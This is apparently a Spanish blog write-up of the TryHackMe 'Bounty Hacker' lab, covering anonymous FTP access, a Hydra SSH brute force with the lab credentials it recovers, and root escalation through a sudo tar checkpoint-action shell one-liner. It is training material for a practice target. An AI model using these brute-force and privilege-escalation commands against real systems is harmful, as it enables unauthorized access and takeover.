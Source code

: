 ```yaml
---
title: Bounty Hacker
date: 2024-01-17 16:00 +/-0000
categories: TryHackMe Máquina
tags:
  - bountyhacker
  - tryhackme
  - easy
author: okud4
toc: true
---
```


## Reconocimiento

Empezamos investigando la máquina accediendo a su dirección ip por nuestro navegador, y como resultado, nos muestra una página web

![](/assets/img/capturas/bountyhacker/webpage.png)

Seguimos analizando su código, por si descubrimos algo interesante.

![](/assets/img/capturas/bountyhacker/webpage-code.png)

Hasta ahora no encontramos nada llamativo.

## Escaneo y Enumeración

Escaneamos la dirección IP con Nessus y analizamos los resultados obtenidos.

- Encontramos los puertos 21, 22 y 80:

![](/assets/img/capturas/bountyhacker/bountyports.png)

- Sitemap con los directorios encontrados a los que podemos acceder

![](/assets/img/capturas/bountyhacker/bountysitemap.png)

- Servidor Apache

![](/assets/img/capturas/bountyhacker/bountyapacheserver.png)

Accedemos a la carpeta `http://<ip server>/images/`y descargamos la foto `crew.jpg` para poder analizar su contenido. Existen varias herramientas, en este caso usare [AperiSolve](https://wwww.aperisolve.com). Tras analizar la imagen, no obtenemos nada importante.

Habíamos localizados dos puertos abiertos, el 21 (ftp) y el 22 (ssh).

#### **_FTP_**

Empezaremos a investigar el ftp, en busca de archivos que contengan información que nos pueda ser útil.

```bash
❯ ftp -v 10.10.165.251
Connected to 10.10.165.251.
220 (vsFTPd 3.0.3)
Name (10.10.165.251:okud4): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44252|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
229 Entering Extended Passive Mode (|||48913|)
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*********************|   418        1.72 MiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (8.29 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
229 Entering Extended Passive Mode (|||42990|)
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*********************|    68      133.34 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (1.34 KiB/s)
```

Ahora procedemos a ver el contenido de ambos archivos .txt

El archivo `locks.txt` parece ser posibles contraseñas y el archivo `task.txt` contiene la respuesta a una de las preguntas.

#### **_SSH_**

Ahora que tenemos una lista de usuarios, podemos acceder por ssh a nuestra máquina, pero nos falta obtener la clave, así que tenemos que conseguir el acceso por fuerza bruta usando #Hydra.

Pero antes de nada, volvemos a inspeccionar el contenido de la web en busca de algún dato importante. Vemos que el contenido es un dialogo entre cuatro personas... Tomaremos sus nombres, junto con el nombre de usuario que encontramos en `task.txt` y creamos un nuevo diccionario de nombres de usuario llamado `users.txt`. Este diccionario lo tomaremos junto con el archivo `locks.txt` para poder obtener el usuario y la clave de acceso para la conexión SSH.

```bash

❯ hydra -L users.txt -P locks.txt 10.10.244.57 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-17 19:44:12
[DATA] max 4 tasks per 1 server, overall 4 tasks, 130 login tries (l:5/p:26), ~33 tries per task
[DATA] attacking ssh://10.10.244.57:22/
[22][ssh] host: 10.10.244.57   login: lin   password: RedDr4gonSynd1cat3

```

## Explotación

Nos conectamos vía ssh al servidor con las credenciales que hemos obtenido anteriormente. Una vez dentro de el servidor, listamos los archivos que se encuentren dentro de la carpeta `~/Desktop` y obtenemos el archivo `user.txt` el cual contiene la primera flag.

![](/assets/img/capturas/bountyhacker/bountyfirstflag.png)

## Escalada de Privilegios

Usando el comando `sudo -l` nos proporciona la información necesaria para poder obtener el vector de ataque a través de los archivos binarios. Para ello, nos ayudamos de la página [GTFOBINS](https://gtfobins.github.io/gtfobins/tar/#sudo)

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
<udo tar -cf /dev/null /dev/null --c                              </dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# ls /root
root.txt
# cat /root/root.txt
```
